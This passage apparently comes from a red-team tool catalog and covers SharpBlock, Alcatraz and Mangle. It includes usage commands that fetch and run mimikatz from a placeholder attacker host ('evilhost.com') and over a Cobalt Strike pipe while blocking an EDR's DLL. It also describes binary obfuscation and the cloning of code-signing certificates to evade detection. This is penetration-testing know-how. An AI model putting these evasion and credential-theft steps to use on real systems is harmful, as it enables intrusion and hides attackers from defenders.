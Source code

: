 # Launch mimikatz over HTTP using notepad as the host process, blocking SylantStrike's DLL
SharpBlock -e http://evilhost.com/mimikatz.bin -s c:\windows\system32\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee

# Launch mimikatz using Cobalt Strike beacon over named pipe using notepad as the host process, blocking SylantStrike's DLL
execute-assembly SharpBlock.exe -e \\.\pipe\mimi -s c:\windows\system32\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee
upload_file /home/haxor/mimikatz.exe \\.\pipe\mimi
Nice PenTestPartners blog post here.

image

Image used from https://youtu.be/0W9wkamknfM

🔙Alcatraz
Alcatraz is a GUI x64 binary obfuscator that is able to obfuscate various different pe files including:

.exe
.dll
.sys
Some supported obfuscation features include:

Obfuscation of immediate moves
Control flow flattening
ADD mutation
Entry-point obfuscation
Lea obfuscation
Install: (Requirements)

Install: https://vcpkg.io/en/getting-started.html

vcpkg.exe install asmjit:x64-windows
vcpkg.exe install zydis:x64-windows
Usage:

Using the GUI to obfuscate a binary:

Load a binary by clicking file in the top left corner.
Add functions by expanding the Functions tree. (You can search by putting in the name in the searchbar at the top)
Hit compile (Note: Obfuscating lots of functions might take some seconds)
image

Image used from https://github.com/weak1337/Alcatraz

🔙Mangle
Mangle is a tool that manipulates aspects of compiled executables (.exe or DLL).

Mangle can remove known Indicators of Compromise (IoC) based strings and replace them with random characters, change the file by inflating the size to avoid EDRs, and can clone code-signing certs from legitimate files.
